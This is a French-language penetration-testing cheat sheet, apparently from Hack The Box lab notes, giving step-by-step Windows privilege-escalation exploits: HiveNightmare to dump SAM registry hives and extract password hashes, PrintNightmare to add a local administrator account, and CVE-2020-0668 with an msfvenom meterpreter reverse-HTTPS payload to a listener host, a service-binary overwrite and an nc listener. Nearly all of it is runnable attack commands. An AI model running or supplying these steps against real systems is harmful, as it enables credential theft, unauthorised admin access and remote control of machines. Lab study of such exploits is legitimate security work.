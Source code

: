 
# Kernel Exploits


> [!TIP]
> Rechercher des CVEs sur le kernel -> WES


- [[#CVE-2021-36934 HiveNightmare]]
- [[#CVE-2021-1675/CVE-2021-34527 PrintNightmare]]
- [[#CVE-2020-0668]]



## CVE-2021-36934 HiveNightmare

https://github.com/GossiTheDog/HiveNightmare

> [!TIP]
> Vulnérable si le user peut lire la base SAM en registre.
> Permet de dump les ruches et extraire les hashes


Identifier les ACL sur le fichier SAM

```cmd
icacls c:\Windows\System32\config\SAM
```

### HiveNightmare

Extraire les ruches

```powershell
.\HiveNightmare.exe
```


## CVE-2021-1675/CVE-2021-34527 PrintNightmare

> [!TIP]
> Permet d'ajouter un driver malicieux en exploitant le spooler d'impression.

https://github.com/calebstewart/CVE-2021-1675


1. Vérifier si le spooler d'impression tourne (path does not exist si ne tourne pas)

```powershell-session
ls \\localhost\pipe\spoolss
```

2. Bypass politique d'execution de scripts

```powershell-session
Set-ExecutionPolicy Bypass -Scope Process
```

3. Importer le module et l'invoquer pour ajouter un user au group admin local

```powershell-session
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

4. Confirmer l'ajout du user

```powershell-session
net user hacker
```


## CVE-2020-0668

> [!TIP]
> Permet de déplacer des fichiers en tant que SYSTEM et de les lire grace au Windows Service Tracing.

https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

1. Compiler le PoC.

2. Vérifier ACL sur "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

```cmd
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

3. Créer binaire reverse shell

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

4. Transférer 2 versions de la charge créée précédemment

5. Run exploit

```cmd-session
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```


5. Vérifier ACL sur le fichier cible (F)

```cmd-session
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

6. Copier la 2e version de la charge transférée vers le fichier cible

```cmd-session
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

7. Lancer Listener

```bash
nc -lvnp 8443
```

8. Lancer service

```cmd-session
net start MozillaMaintenance 
```

